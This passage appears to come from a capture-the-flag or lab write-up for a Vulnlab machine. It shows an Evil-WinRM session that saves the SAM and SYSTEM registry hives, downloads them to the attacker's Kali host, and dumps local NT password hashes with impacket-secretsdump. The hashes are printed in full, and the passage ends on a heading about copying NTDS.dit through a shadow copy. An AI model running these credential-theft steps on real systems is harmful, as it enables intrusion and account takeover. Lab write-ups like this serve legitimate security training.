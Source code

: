 ```bash
*Evil-WinRM* PS C:\> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system C:\temp\system.hive
The operation completed successfully.
```

```bash
    Directory: C:\temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/26/2025  12:11 PM          49152 sam.hive
-a----         7/26/2025  12:11 PM       16842752 system.hive

```

- Download those files to your local directory

```bash
*Evil-WinRM* PS C:\temp> download sam.hive
                                        
Info: Downloading C:\temp\sam.hive to sam.hive
                                        
Info: Download successful!
*Evil-WinRM* PS C:\temp> download system.hive
                                        
Info: Downloading C:\temp\system.hive to system.hive
                                        
Info: Download successful!

```

- We have now “local Administrator” NTHASH

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# impacket-secretsdump -sam sam.hive -system system.hive LOCAL                                                                                           
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
                       
```

- But we can not connect via Evil-WinRM to it (Because its local)

## Shadowcopy C to get NTDS.dit

